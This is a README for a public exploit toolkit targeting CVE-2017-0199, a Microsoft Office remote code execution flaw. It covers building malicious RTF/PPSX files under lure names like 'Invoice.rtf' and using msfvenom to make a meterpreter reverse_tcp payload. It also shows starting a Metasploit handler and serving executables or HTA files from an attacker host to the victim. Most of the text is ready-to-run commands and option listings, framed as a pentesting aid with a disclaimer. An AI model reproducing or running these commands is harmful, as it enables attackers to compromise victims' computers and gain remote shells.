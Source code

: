 ## Exploit toolkit CVE-2017-0199 - v4.0

Exploit toolkit CVE-2017-0199 - v4.0 is a handy python script which provides pentesters and security researchers a quick and effective way to test Microsoft Office RCE. It could generate a malicious RTF/PPSX file and deliver metasploit / meterpreter / other payload to victim without any complex configuration. 

### Disclaimer

This program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (bhdresh) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using this program you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not bhdresh's responsibility.

Finally, this is a personal development, please respect its philosophy and don't use it for bad things!

### Licence
CC BY 4.0 licence - https://creativecommons.org/licenses/by/4.0/

### Release note:

Introduced following capabilities to the script

	- Generate Malicious PPSX file
	- Exploitation mode for generated PPSX file
	- Updated template.ppsx

Version: Python version 2.7.13

### Scenario 1: Deliver local payload
###### Example commands
	1) Generate malicious RTF file
	   # python cve-2017-0199_toolkit.py -M gen -t RTF -w Invoice.rtf -u http://192.168.56.1/logo.doc
	2) (Optional, if using MSF Payload) : Generate metasploit payload and start handler
	   # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > /tmp/shell.exe
	   # msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.1; run"
	3) Start toolkit in exploit mode to deliver local payload
	   # python cve-2017-0199_toolkit.py -M exp -t RTF -e http://192.168.56.1/shell.exe -l /tmp/shell.exe
###### Sequence diagram

![alt tag](https://raw.githubusercontent.com/bhdresh/CVE-2017-0199/v3.0-beta-2.0/Scenario1.jpg)


### Scenario 2: Deliver Remote payload
###### Example commands
	1) Generate malicious RTF file
	   # python cve-2017-0199_toolkit.py -M gen -t RTF -w Invoice.rtf -u http://192.168.56.1/logo.doc
	2) Start toolkit in exploit mode to deliver remote payload
	   # python cve-2017-0199_toolkit.py -M exp -t RTF -e http://remoteserver.com/shell.exe
###### Sequence diagram

![alt tag](https://raw.githubusercontent.com/bhdresh/CVE-2017-0199/v3.0-beta-2.0/Scenario2.jpg)


### Scenario 3: Deliver custom HTA file
###### Example commands
	1) Generate malicious RTF file
	   # python cve-2017-0199_toolkit.py -M gen -t RTF -w Invoice.rtf -u http://192.168.56.1/logo.doc -x 1
	2) Start toolkit in exploit mode to deliver custom HTA file
	   # python cve-2017-0199_toolkit.py -M exp -t RTF -H /tmp/custom.hta
###### Sequence diagram

![alt tag](https://raw.githubusercontent.com/bhdresh/CVE-2017-0199/v3.0-beta-2.0/Scenario3.jpg)


### Command line arguments:

    # python cve-2017-0199_toolkit.py -h

    This is a handy toolkit to exploit CVE-2017-0199 (Microsoft office RCE)

    Modes:

    -M gen                                          Generate Malicious file only

         Generate malicious RTF/PPSX file:

          -w <Filename.rtf/Filename.ppsx>     Name of malicious RTF/PPSX file (Share this file with victim).

          -u <http://attacker.com/test.hta>   The path to an HTA/SCT file. Normally, this should be a domain or IP where        this                                          tool is running.
	                                      For example, http://attackerip.com/test.doc (This URL will be included in 	                                              malicious RTF/PPSX file and will be requested once victim will open malicious RTF file.
	      -t RTF|PPSX (default = RTF)         Type of the file to be generated.
          -x 0|1  (default = 0)               Generate obfuscated RTF file. 0 = Disable, 1 = Enable.

					      
    -M exp                                          Start exploitation mode

         Exploitation:
	 
	      -t RTF|PPSX (default = RTF)         Type of file to be exolited.
          -H </tmp/custom>                Local path of a custom HTA/SCT file which needs to be delivered and executed on target.
	                                          NOTE: This option will not deliver payloads specified through options "-e" and "-l"
						  
          -p <TCP port:Default 80>            Local port number.

          -e <http://attacker.com/shell.exe>  The path of an executable file / meterpreter shell / payload  which needs to be executed on target.

          -l </tmp/shell.exe>                 If payload is hosted locally, specify local path of an executable file / meterpreter shell / payload.


### Credit

@nixawk for RTF sample, @Li Haifei, @bhdresh

### Bug, issues, feature requests

Obviously, I am not a fulltime developer so expect some hiccups

Please report bugs, issues through https://github.com/bhdresh/CVE-2017-0199/issues/new
